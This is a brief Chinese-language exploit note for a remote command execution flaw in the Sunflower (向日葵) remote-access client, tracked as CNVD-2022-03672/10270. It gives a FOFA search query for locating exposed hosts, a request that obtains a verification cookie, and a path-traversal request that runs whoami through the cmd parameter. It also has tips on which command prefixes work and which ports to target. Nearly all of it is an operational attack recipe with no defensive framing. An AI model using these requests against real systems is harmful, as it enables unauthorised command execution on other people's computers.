


# 向日葵RCE漏洞（CNVD-2022-03672/10270）
## 资产搜索
fofa body="Verification failure"
## POC
1. 获取cookie  
`/cgi-bin/rpc?action=verify-haras`  

2. RCE
添加cookie进行poc执行
`/check?cmd=ping../../../../../../../../../../../windows/system32/whoami`  

## 其他
- 参数cmd的值以ping或者nslookup开头时可以构造命令实现远程命令执行利用
- 客户端默认开启一个大于40000的端口号，端口号较大的重点关注